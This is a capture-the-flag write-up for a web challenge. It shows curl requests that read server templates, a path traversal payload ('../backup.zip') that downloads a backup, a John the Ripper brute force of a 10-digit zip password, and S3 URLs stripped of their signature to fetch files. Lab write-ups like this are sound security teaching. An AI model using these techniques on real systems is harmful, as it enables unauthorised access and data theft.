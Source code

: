 # Instant Development Company

The source of https://instant-development-company.secchallenge.crysys.hu/ reveals a link to the /debug folder.

```
...
<body>
    <a href="/" class="menu-button" style="text-align: justify;">Main page</a>
    <a href="/review" class="menu-button" style="text-align: justify;">Leave feedback</a>
    <a href="/debug" class="menu-button" style="text-align: justify;"></a>
...
```

There are a couple of potential attack points in that page. One is a template file viewer. Let's try that on debug.html with curl:

```
> curl 'https://instant-development-company.secchallenge.crysys.hu/download/templates'  --data-raw 'template=debug.html'
{% extends "base.html" %}

{% block head %}
<title>Debug page</title>
{% endblock %}

{% block body %}
<div>
    <h1 style="text-align: center;">Debug</h1>

    <!-- [AUTOREMOVE] AN: I've created a backup of our contracts for archival purposes. It should be in a backup.zip file in the root directory. -->
    <!-- [AUTOREMOVE] AN: Unfortunately I kinda forgot the password, but I do remember that it only had numbers in it and it was 10 digits long. -->

    <form action="/ping" method="POST">
        <label for="addr">Ping address:</label>
        <input type="text" id="addr" name="addr" placeholder="google.com">
        <input type="submit" value="Ping">
    </form>

    <br><br>

    <form action="/download/templates" method="POST">
        <label for="template">Download site templates:</label>
        <select name="template" id="template">
            <option value="base.html">base.html</option>
            <option value="index.html">index.html</option>
            <option value="reviews.html">reviews.html</option>
            <option value="debug.html">debug.html</option>
            <option value="announce.html">announce.html</option>
        </select>
        <input type="submit" value="Download">
    </form>

    <br><br>

    <form action="/devmessage" method="POST">
        <label for="devmessage">Message other developers:</label>
        <input type="text" id="dev" name="dev" placeholder="developer">
        <input type="text" id="message" name="message" placeholder="message">
        <input type="submit" value="Send">
    </form>

</div>
{% endblock %}%
```

Bingo. There has to be a backup.zip somewhere with a password of 10 digits. Let's try downloading the zip with the template downloader again:

```
> curl 'https://instant-development-company.secchallenge.crysys.hu/download/templates'  --data-raw 'template=../backup.zip' > backup.zip
```
Now run John the ripper to get the password:
```
> john --incremental=digits --min-length=10 --max-length=10 hash.txt
```

Unzip the file
```
> unzip -P REDACTED backup.zip
```

We find a file containing a bunch of S3 download links in the form of:
```
...
https://instant-development-company.s3.eu-central-1.amazonaws.com/00000000-0000-0000-0000-000000000000?AWSAccessKeyId=00000000000000000000&Expires=1635928981&Signature=00000000000000_0000000000000%3d
...
```

But we cannot download them:
```
> curl https://instant-development-company.s3.eu-central-1.amazonaws.com/00000000-0000-0000-0000-000000000000?AWSAccessKeyId=00000000000000000000&Expires=1635928981&Signature=00000000000000_0000000000000%3d
<?xml version="1.0" encoding="UTF-8"?>
<Error><Code>AccessDenied</Code><Message>Request has expired</Message><Expires>2021-10-13T20:41:40Z</Expires><ServerTime>2022-03-16T06:57:35Z</ServerTime><RequestId>7D3PB49BH510BXPD</RequestId><HostId>kpPQtioPMo0Tq+sY0b5wg5mlH+ZmJc/vwT7AAKwFrHSaxGLGt0cosQ1YwAqm2sAVfosziX8Tric=</HostId></Error>
```

Try removing the expires and signature part from the url:

```
> curl https://instant-development-company.s3.eu-central-1.amazonaws.com/00000000-0000-0000-0000-000000000000?AWSAccessKeyId=00000000000000000000
...bunch of text...
```
We just need to download all files and filter for the flag.